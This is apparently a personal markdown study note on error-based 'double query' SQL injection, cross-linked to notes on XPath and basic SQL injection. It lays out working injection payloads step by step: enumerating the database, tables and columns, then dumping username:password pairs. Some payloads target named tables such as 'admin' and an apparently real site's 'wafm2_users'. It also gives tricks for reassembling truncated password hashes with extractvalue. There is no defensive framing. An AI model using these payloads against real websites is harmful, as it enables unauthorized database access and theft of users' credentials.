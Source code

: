 # <mark style="background: #FF5582A6;">Prerequisite :</mark> 
[[12-Xpath Injection]]
# <mark style="background: #FF5582A6;">Description :</mark> 

1. Hashed password are <mark style="background: #FF5582A6;">32</mark> characters or <mark style="background: #FF5582A6;">40</mark> characters.
   So if, for example, the password we obtained with [[12-Xpath Injection]], if it has <mark style="background: #FF5582A6;">33</mark> characters, it means, it's incomplete and we have to use : <mark style="background: #FF5582A6;">Double Query</mark> .

2. if nothing is displayed with the first double query command, then we don't have this vulnerability.

3. if double query and [[12-Xpath Injection]] methods, don't work from one of the steps, we will continue with [[2-Sql Injection (Basic)]].
    because [[2-Sql Injection (Basic)]] doesn't limit the number of characters to be printed, of course, if the site has this vulnerability.

4. if we encounter an <mark style="background: #FF5582A6;">Not Acceptable error</mark> in <mark style="background: #FF5582A6;">the first step of the double query</mark> , <mark style="background: #FF5582A6;">there isn't any bypass</mark> for this.

# How To Do :
## Step 1 :
database :

- <mark style="background: #FFB86CA6;">and (select 1 from (select count(*),concat((select(select concat(cast(database() as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</mark> 

## Step 2 :
table :

- <mark style="background: #FFB86CA6;">and (select 1 from (select count(*),concat((select(select concat(cast(table_name as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</mark> 

## Step 3 :
column :

- <mark style="background: #FFB86CA6;">and (select 1 from (select count(*),concat((select(select concat(cast(column_name as char),0x7e)) from information_schema.columns where table_name='user_data' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</mark> 

## Step 4 :
extract information :

- <mark style="background: #FFB86CA6;">and (select 1 from (select count(*),concat((select(select concat(cast(concat(username,0x3a,password) as char),0x7e)) from edgartlb_content.wafm2_users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</mark> 


## <mark style="background: #FF5582A6;">Important Point 1 :</mark> 
the double query method can be print <mark style="background: #FF5582A6;">63</mark> characters, therefore, it can't print <mark style="background: #FF5582A6;">sha512</mark> hashed passwords that are <mark style="background: #FF5582A6;">112 to 128</mark> characters.
to solve this problem, we have the following command :

- <mark style="background: #FFB86CA6;">And(select 1 from(select count(*),concat(0x3a,(select substr(group_concat(username,0x3a,password),1,150) from admin where table_schema like database()),0x3a,floor(rand(0)*2))x from information_schema.tables group by x)z)-- -</mark> 

if we encounter this error : <mark style="background: #FF5582A6;">Subquery returns more than 1 row</mark> 
in the last step of double query, we use the command above.

## <mark style="background: #FF5582A6;">Important Point 2 :</mark> 
In the last step of [[12-Xpath Injection]]
if the password is hashed, it will not be shown in full. because the xpath injection can be print <mark style="background: #FF5582A6;">32 characters</mark> and one character is <mark style="background: #FF5582A6;">0x7e</mark> , so the hashed password in xpath injection is always <mark style="background: #FF5582A6;">incomplete</mark> .
to solve this problem, we type the first code (1), we write down the hashed password that is displayed then we type the second code (2), and we wirte down the second hashed password under the first hashed password (every character is below the character of the first hashed password, we add the additional characters of the lower password to the upper password) and <mark style="background: #FF5582A6;">complete the password</mark> .
(<mark style="background: #FF5582A6;">in second code, we delete the 0x7e</mark> )

1. <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select concat(pass) from admin limit 0,1)))--</mark> 

2. <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat((select concat(pass) from admin limit 0,1)))--</mark> 

So if we encounter an error with the second code (2), that is, we got an error by deleting 0x7e, we use double query as follow :

 - <mark style="background: #FF5582A6;">in this situation, we don't start double query steps from the start, because we found the important table and the important columns.</mark> 
 - <mark style="background: #FF5582A6;">at first, we do the first step if the double query to find the version.</mark> 
 - <mark style="background: #FF5582A6;">then we go to the last step of the double query and we write the name of the database that we found before the important table.</mark> 
 - <mark style="background: #FF5582A6;">of course, double query commands can be also be used from the beginning without xpath injection.</mark> 
    <mark style="background: #FF5582A6;">but it's used most of the time that :</mark> we encounter problems by completing the password in [[12-Xpath Injection]] as explained above, or we encounter an forbidden in the second step of [[12-Xpath Injection]] or in the second step in [[12-Xpath Injection]] the website page is completely loaded.
